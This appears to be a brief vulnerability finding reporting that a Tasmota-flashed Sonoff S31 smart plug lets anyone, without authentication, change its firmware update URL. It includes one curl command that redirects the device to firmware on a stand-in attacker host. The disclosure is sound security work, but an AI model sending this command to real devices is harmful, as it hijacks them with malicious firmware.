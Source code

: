 #  OTA URL Hijack

## 📋 Summary
The Sonoff S31 smart plug running Tasmota firmware was found to accept an unauthenticated command to set a new firmware update source (OTA URL). This allows an attacker to redirect the device to download firmware from a malicious server.

## Command Used
```bash
curl "http://192.168.8.214/cm?cmnd=OtaUrl%20http://attacker.com/evil.bin"
```
